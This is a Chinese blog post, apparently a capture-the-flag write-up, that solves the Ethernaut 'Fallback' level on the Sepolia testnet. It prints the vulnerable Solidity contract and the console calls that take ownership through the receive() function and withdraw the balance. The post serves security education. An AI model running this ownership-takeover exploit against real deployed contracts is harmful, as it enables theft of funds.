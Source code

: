 ```yaml
---
title: Ethernaut第1关-fallback解题指南
date: 2025-04-09 00:30:46
tags: web3,securtiy
---
```


# Ethernaut 第 1 关 - Fallback 解题指南

Ethernaut 是 OpenZeppelin 提供的 Web3/Solidity 战游戏，通过“黑客”智能合约帮助学习以太坊安全知识。第 1 关“Fallback”是一个基础关卡，旨在让玩家理解回退函数的潜在漏洞。本指南详细解释如何解决关卡 [https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)，并提供完整步骤。

## 前提条件
- 安装并配置 [Metamask](https://metamask.io/)，连接到 Sepolia 测试网。
- 从 [Sepolia Faucet](https://sepoliafaucet.com/) 获取测试网 ETH。
- 访问 [Ethernaut 官网](https://ethernaut.openzeppelin.com/) 并生成新实例。

## 关卡目标
- 成为合约的 `owner`。
- 将合约余额减少到 0（初始余额为 0.001 ETH）。

## 解决步骤

### 1. 准备环境
- 确保 Metamask 已连接到 Sepolia 测试网并有足够的 ETH。
- 在 Ethernaut 第 1 关页面点击“生成新实例”，获取合约地址。
- 打开浏览器开发者工具（F12），切换到 Console 标签。

### 2. 发送初始贡献
- 调用 `contribute` 函数，发送少量 ETH（例如 0.0001 ETH）：
  ···javascript
  await contract.contribute({ value: ethers.parseEther("0.0001") })
  ···
- 这将记录你的贡献，满足回退函数的要求。

### 3. 触发回退函数接管所有权
- 直接向合约发送 ETH（例如 0.001 ETH），触发 `receive` 函数：
  ···javascript
  await web3.eth.sendTransaction({
      from: player,
      to: contract.address,
      value: ethers.parseEther("0.001")
  })
  ···
- 发送成功后，你将成为新的 `owner`。

### 4. 提取资金
- 调用 `withdraw` 函数提取所有余额：
  ···javascript
  await contract.withdraw()
  ···
- 合约余额将被转回你的钱包。

### 5. 验证完成
- 检查合约余额（应为 0）：
  ···javascript
  await web3.eth.getBalance(contract.address)
  ···
- 检查 `owner`（应为你的地址）：
  ···javascript
  await contract.owner()
  ···
- 在 Ethernaut 页面点击“Submit Instance”验证。

## 注意事项
- **ETH 单位**：`ethers.parseEther("0.001")` 将 0.001 ETH 转换为 Wei。
- **交易确认**：每次调用需等待交易确认。
- **成本**：需支付少量 ETH，但提取的资金会覆盖成本。

## 合约代码参考
以下是关卡的简化合约代码：
···solidity
contract Fallback {
    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    receive() external payable {
        require(msg.value > 0);
        require(contributions[msg.sender] > 0);
        owner = msg.sender;
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }
}
···

## 结果
通过利用回退函数的漏洞，你成功接管合约并提取所有资金，完成第 1 关。这一关展示了回退函数设计不当的安全风险。

## 资源与参考
- [Ethernaut 官网](https://ethernaut.openzeppelin.com/)
- [Metamask 官网](https://metamask.io/)
- [Sepolia Faucet](https://sepoliafaucet.com/)